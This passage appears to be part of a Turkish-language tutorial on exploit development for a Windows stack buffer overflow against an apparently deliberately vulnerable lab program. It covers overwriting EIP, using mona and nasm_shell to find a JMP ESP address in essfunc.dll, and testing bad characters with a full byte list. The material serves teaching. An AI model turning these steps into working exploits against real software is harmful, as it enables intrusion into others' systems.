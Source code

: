 Bu kod ile 2006 tane A karakteri sonrasında da 4 tane B karakteri uygulamaya gönderilecek. Bu şekilde hedef uygulamaya gönderildiğinde; EIP değeri eğer BBBB yani 42424242 oluyorsa işlem tamamlanmış olacaktır.


###  JMP ESP INSTRUCTOR

Bu aşamada kontrol edebildiğimizi gördüğümüz EIP register'ına ESP register'ını göstermeye zorlamak için uygulama üzerinde bir JMP ESP instructor arayacağız. İlgili işlemde debugger'a mona eklentisini yükleyip onun yardımıyla işlemi gerçekleştireceğiz.
Download: https://github.com/corelan/mona
İndirilen mona.py dosyasını Immunity Debugger yazılımının yüklü olduğu dizindeki PyCommands klasörüne kopyalamamız yeterlidir.

Debugger'da sistem üzerindeki modülleri görüntülemek için: !mona modules

Module info kısmından hem SafeSEH, ASLR gibi koruma önlemleri olmayan (False) hem de 0x00 yani null byte ile başlamayan modülleri tercih etmeliyiz. Bu örnekte essfunc.dll uygun görünüyor. Şimdi bu modül üzerinde Jmp Esp instuctor arayacağız. Peki bu instructor'ın opcode haline nasıl ulaşacağız? Bunun için de MSF'in nasm_shell aracını kullanacağız.

```shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
instuctor'ını yazarak bunun kod halini alabiliriz:
> 00000000  FFE4              jmp esp
```

Modülümüz üzerinde bu instructor var mı onu arayacağız. Bunun için mona'nın find özelliğini kullanacağız: `!mona find -s '\xff\xe4' -m essfunc.dll`

Bulduğu birkaç adreste ilgili instructor'ın olduğunu bize gösterecektir. Test amaçlı çıkan sonuçlardan en üsttekine çift tıklayıp jmp esp'nin olduğunu görebiliriz.

Amacımız; biz eğer ki bu jmp esp instructor'ını EIP'ye verip ESP'nin adresini gösterirsek ESP'de verdiğimiz shellcode'un çalıştırmasını sağlayacak. Biz bu sebeple jmp esp kodu arıyorduk, direkt olarak ESP'nin adresini gösterirsek eğer ki ESP'nin adresi değişmesi durumunda exploitimiz çalışmayacaktı. Bu sebeple jmp esp instructor'ı aradık. 

Bulunan instructor'a sağ tıklayıp kopyalayalım:
625011AF   FFE4             JMP ESP

Bu instructor'ı kullanarak badchars belirleyeceğiz.


### BADCHARS KONTROLÜ

Badchars, ESP register'ını doldurduğumuzda bozuntuya sebebiyet verecek karakterlerdir. Bunların tespiti için aslında program üzerine tüm karakterleri atıyoruz ve ESP register'ını Follow in Dump diyerek kontrol ediyoruz. Eğer ki firar veren karakterler varsa onu badchars olarak işaretliyoruz. 

Badchars:

```shell
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```